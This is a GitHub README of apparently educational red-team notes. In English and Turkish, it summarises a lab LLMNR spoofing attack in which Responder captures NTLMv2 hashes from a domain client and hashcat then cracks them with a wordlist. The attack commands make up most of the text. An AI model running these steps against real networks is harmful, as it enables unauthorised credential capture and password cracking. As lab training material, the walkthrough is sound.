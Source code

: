 # Active-Directory-Attacks
AD attack commands & notes for red team operations and learning.

🔧 LLMNR Spoofing Attack - Command Summary
🖥️ Lab Setup:
Windows Server 2019 – Domain Controller

Windows 10 – Domain-joined Client

Kali Linux – Attacker machine

⚙️ Step 1 - Run Responder

---> sudo responder -I vboxnet0 -w
ℹ️ Replace vboxnet0 with your active network interface (eth0, ens33, etc). You can list them with:
    --> ip a
    
📡 Step 2 - Trigger LLMNR Request from Victim
Run the following command on the Windows 10 Client:

---> net use \\fakename\share

🔐 Step 3 - Save the Captured Hash
Captured hashes are shown in Responder. Copy and paste the NTLMv2 hash into a file:

---> nano hash.txt

🧠 Step 4 - Crack the Hash using Hashcat

---> hashcat -m 5600 -a 0 hash.txt rockyou.txt

If rockyou.txt is compressed, unzip it first:
    --> gzip -d /usr/share/wordlists/rockyou.txt.gz

🧹 Optional - Flush DNS on Victim Machine

If Responder doesn’t capture a hash on retry:

--->ipconfig /flushdns
✅ If the password is cracked, the attack was successful.

🖼️ Screenshots and detailed explanations can be found in each step’s Markdown file.

----------------------------------------------------------------------------------------

🔧 LLMNR Spoofing Saldırısı - Komut Özeti
🖥️ Laboratuvar Yapısı:
Windows Server 2019 – Domain Controller

Windows 10 – Domaine dahil istemci

Kali Linux – Saldırgan makine

⚙️ 1. Adım - Responder'ı Başlat

--->sudo responder -I vboxnet0 -w
ℹ️ vboxnet0 yerine kendi aktif ağ arayüzünüzü yazın (eth0, ens33 vb). Arayüzleri listelemek için:
    -->ip a
    
📡 2. Adım - Kurban Cihazdan LLMNR İsteği Oluştur
Windows 10 Client üzerinde şu komutu çalıştırın:

--->net use \\fakename\share

🔐 3. Adım - Yakalanan Hash’i Kaydet
Responder tarafından yakalanan NTLM hash’i bir dosyaya kaydedin:

--->nano hash.txt

🧠 4. Adım - Hashcat ile Hash Kırma

--->hashcat -m 5600 -a 0 hash.txt rockyou.txt
Eğer rockyou.txt sıkıştırılmışsa, önce açın:

--->gzip -d /usr/share/wordlists/rockyou.txt.gz

🧹 Opsiyonel - DNS Cache Temizleme
Hash yakalanmıyorsa, hedef sistemde DNS önbelleğini temizleyin:

--->ipconfig /flushdns
✅ Eğer parola başarıyla kırıldıysa, saldırı başarılı olmuştur.

🖼️ Her adımın detayları ve ekran görüntüleri ilgili dosyalarda mevcuttur.
